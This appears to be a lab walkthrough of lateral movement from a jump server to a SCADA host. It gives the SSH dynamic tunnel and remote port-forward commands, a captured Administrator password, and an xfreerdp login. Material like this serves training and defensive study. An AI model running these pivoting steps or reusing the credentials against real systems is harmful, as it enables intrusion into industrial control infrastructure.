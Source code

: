# Lateral Movement 3 - Jump-Server to SCADA

- [Lateral Movement 3 - Jump-Server to SCADA](#lateral-movement-3---jump-server-to-scada)
  - [SSH Tunnel](#ssh-tunnel)
  - [Access the SCADA Server](#access-the-scada-server)

----

## SSH Tunnel

First establish Dynamic SSH tunnel:

```
proxychains ssh -D 9050 jump-admin@10.1.1.4
```

<br/>

Add `10.2.1.1 scada-host.scada.local` in the attacker hosts file:

![picture 43](images/d7094e61a570427a72c40d5d37aea2f0305e741799521d72f5af1ebfd0352286.png)  

<br/>

Try to access the server rdweb:

```
https://scada-host.scada.local/RDWeb/
```

![picture 44](images/6eae78075a6847d59e203206b6c99c0923f42dc2b9d5aec4c0a0c94c22eece13.png)  

<br/>

Use the obtained credential to login:

`Administrator` / `SCADAAdmin!@#$%`

![picture 45](images/253436bd19fb8903471e6bebd5353d91547a51b9e9baf280cca05a857e75dde1.png)  

<br/>

## Access the SCADA Server

Since RD Web Access is enable, do a remote port forward:

```
ssh -R 443:10.2.1.1:443 root@192.168.100.11
```

![picture 46](images/4bbed698827e52c040e91af82f9c6dd6277bd834fb76806a6c1bfa187163b97f.png)  

<br/>

On the attacker host, modify `/etc/hosts`:

```
nano /etc/hosts
```

![picture 47](images/1b0fa4ce6aadb0f0a3cec303eedf4a564ecc17b33477fdc67e3fb782369a163e.png)  

<br/>

Then use `xfreerdp` to access:

```
xfreerdp /d:scada /u:Administrator /p:'SCADAAdmin!@#$%' /v:scada-host.scada.local /g:scada-host.scada.local
```

![picture 48](images/8b4d69fc702bb637fda089ef298df317276846ebe07623e3d941e855c1f65fc2.png)  

